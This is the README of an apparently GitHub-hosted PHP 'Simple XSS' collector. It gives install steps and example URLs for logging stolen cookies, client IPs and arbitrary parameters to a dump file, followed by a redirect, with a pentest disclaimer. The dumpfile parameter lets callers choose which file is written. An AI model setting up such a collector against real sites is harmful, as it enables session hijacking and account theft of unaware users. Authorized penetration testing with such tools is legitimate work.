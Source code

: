     # Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/ScanQLi/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

    Simple index.php template to perform XSS attack.

    ### Features
    * Record each URL args
    * Record client IP
    * Instant redirection (static or dynamic)

    ### Prerequisites
    * Web server (apache2, nginx, ...)
    * PHP

    ### Installing
    **1.** Get the sources
    ```bash
    git clone https://github.com/bambish/SimpleXSS
    ```

    **2.** Move index.php in the web server root dir.
    ```bash
    mv SimpleXSS/index.php /var/www/html
    ```
    *Adapt the path if you don't use apache2*

    ### Usage
    * Basic usage: **cookies**=12345&**arg**=67890
    ```http
    http://127.0.0.1/index.php?cookies=12345&arg=67890
    ```
    *You can use every `arbitrary args name`*

    * Dynamic redirection: **redirect**=http://arbitrarywebsite.com/
    ```http
    http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
    ```
    *You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`
    You can force the static redirection if you set `$allowgetredirection` to false in index.php*

    * Write in specific dump file: **dumpfile**=arbitraryfile.txt
    ```http
    http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
    ```
    *Be shure your `web server` have the right `access to create and edit` files at the root dir
    The default dump file is `dumpfile.txt`*

    ### Warning
    This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
    Using this XSS template against web site **without authorization** is **forbidden**. 

    I'm not responsible of your usage of this XSS template.
    **At your own risk**.